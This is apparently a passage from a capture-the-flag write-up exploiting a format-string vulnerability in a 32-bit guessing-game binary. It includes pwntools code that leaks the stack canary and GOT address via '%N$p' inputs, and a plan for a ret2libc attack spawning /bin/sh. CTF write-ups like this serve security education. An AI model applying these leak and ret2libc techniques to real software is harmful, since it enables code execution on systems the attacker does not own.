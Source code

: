     guess_num = '-1631'
    #guess_num = '-31'
    
    p = make_packer('all', endian='big', sign='unsigned')
    
    def leck_by_para_num(printf_para):
    	global sh
    	sh.recvuntil('guess?\n')
    	sh.sendline(guess_num)
    	sh.recvuntil('\nName? ')
    	sh.sendline('%'+str(printf_para)+'$p')
    	sh.recvuntil('Congrats: ')
    	sh.recv(2)
    	data = sh.recvuntil('\n\n')
    	data = int(data,16)
    	return data

Now, the canary can be gained by call `leck_by_para_num(135)`

    # find canary
    canary = leck_by_para_num(135)

## Note
The remote server has a different libc version with local, so we have to found the libc version of remote server. Then we can find the address of `system()` and `/bin/sh` in the libc, so we can do the ret2libc attack. 

## find address of GOT (_GLOBAL_OFFSET_TABLE_)
Try to leck some address of function from GOT (_GLOBAL_OFFSET_TABLE_)

Still break at .text:080487D3
![stack_got.png][11]
esp = FFC8BA60

    (0xFFC8BC4C - 0xFFC8BA60)/4 = 0x7B = 123

So, the address of GOT can be 'leck'ed by input %123$p when it asking the winner's name.
![got.png][12]

Also can be gained by call `leck_by_para_num(123)`

    # find GOT
    GOT = leck_by_para_num(123)

## find address of functions in GOT
View the GOT disassembly view
![got_ida.png][13]
I choose `gets` and `__libc_start_main` symbols.
`gets` is at the 0x10 offset of GOT (`GOT + 0x10`)
`__libc_start_main` is at the 0x24 offset of GOT (`GOT + 0x24`)
So we have to leck the data by input address. We can take advantage format string vuln again by input something include `%s`.


  [1]: https://frc6.com/usr/uploads/2020/10/2971545081.zip
  [2]: https://frc6.com/usr/uploads/2020/10/4108005776.png
  [3]: https://frc6.com/usr/uploads/2020/10/3723486194.png
  [4]: https://frc6.com/usr/uploads/2020/10/2670320421.png
  [5]: https://frc6.com/usr/uploads/2020/10/2349705066.png
  [6]: https://frc6.com/usr/uploads/2020/10/2446962559.png
  [7]: https://frc6.com/usr/uploads/2020/10/652770218.png
  [8]: https://frc6.com/usr/uploads/2020/10/1411080372.png
  [9]: https://frc6.com/usr/uploads/2020/10/3912975445.png
  [10]: https://frc6.com/usr/uploads/2020/10/1268743115.png
  [11]: https://frc6.com/usr/uploads/2020/10/2294887826.png
  [12]: https://frc6.com/usr/uploads/2020/10/2816564190.png
  [13]: https://frc6.com/usr/uploads/2020/10/532307689.png
  [14]: https://frc6.com/usr/uploads/2020/10/215960980.png
  [15]: https://frc6.com/usr/uploads/2020/10/666389066.png
  [16]: https://frc6.com/usr/uploads/2020/10/1084771796.png